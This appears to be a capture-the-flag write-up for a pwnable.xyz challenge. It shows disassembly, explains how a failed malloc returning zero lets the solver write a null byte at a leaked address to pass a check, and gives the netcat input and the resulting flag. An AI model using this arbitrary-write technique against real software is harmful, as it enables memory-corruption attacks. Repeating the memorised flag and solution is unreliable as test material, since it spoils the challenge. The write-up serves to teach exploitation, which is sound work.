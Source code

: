 ```nasm
   0x80009b0:   mov    edi,0x1
   0x80009b5:   xor    eax,eax
   0x80009b7:   call   0x80008f0            ;printf
   0x80009bc:   mov    rdx,QWORD PTR [rsp]  ;length
   0x80009c0:   xor    edi,edi              ;0
   0x80009c2:   mov    rsi,rbp              ;2nd malloc-ed space
   0x80009c5:   call   0x80008d8            ;read
   0x80009ca:   mov    rdx,QWORD PTR [rsp]
   0x80009ce:   mov    rsi,rbp
   0x80009d1:   mov    edi,0x1
   0x80009d6:   mov    BYTE PTR [rbp+rdx*1-0x1],0x0 ;last char of 2nd malloc-ed space
   0x80009db:   call   0x80008b8            ;write
   0x80009e0:   cmp    QWORD PTR [rbx],0x0  ;rbx = 1st malloc-ed address
   0x80009e4:   jne    0x80009f2
   0x80009e6:   lea    rdi,[rip+0x27c]        # 0x8000c69   "cat /flag"
   0x80009ed:   call   0x80008c8            ;system
   0x80009f2:   xor    eax,eax
   0x80009f4:   mov    rcx,QWORD PTR [rsp+0x8]
   0x80009f9:   xor    rcx,QWORD PTR fs:0x28
   0x8000a02:   je     0x8000a09
   0x8000a04:   call   0x80008c0
   0x8000a09:   add    rsp,0x18
   0x8000a0d:   pop    rbx
   0x8000a0e:   pop    rbp
   0x8000a0f:   ret
```
The main function mallocs a large space at the beginning and write 1 to the first byte.

After that, it mallocates another space with sepcified size, and reads user input to that space.

Then, it writes 0 to [2nd malloc + size - 1].

Finally it compares 1st malloc's first byte with 0 and prints flag if equal.

The key to this problem is in malloc's return value.

When malloc fails to allocate memory, it returns 0. Using this, we could write 0 to whereever we want.

By inputting leaked_address-1 to size, the destination for ``mov 0`` becomes [0+leaked_address+1-1] and we can get past the compare instruction.

```bash
junheah@ubuntu:~$ nc svc.pwnable.xyz 30000
Welcome.
Leak: 0x7fcdd49f5010
Length of your message: 140522012233745
Enter your message: a
FLAG{did_you_really_need_a_script_to_solve_this_one?}
```

notes:
```
malloc:
    input: rdi - size
    output: rax - location (if failed, returns 0)
printf:
    input: edi - output location (fd?), rsi - string address, rdx,... - pointer values if formatted string
```
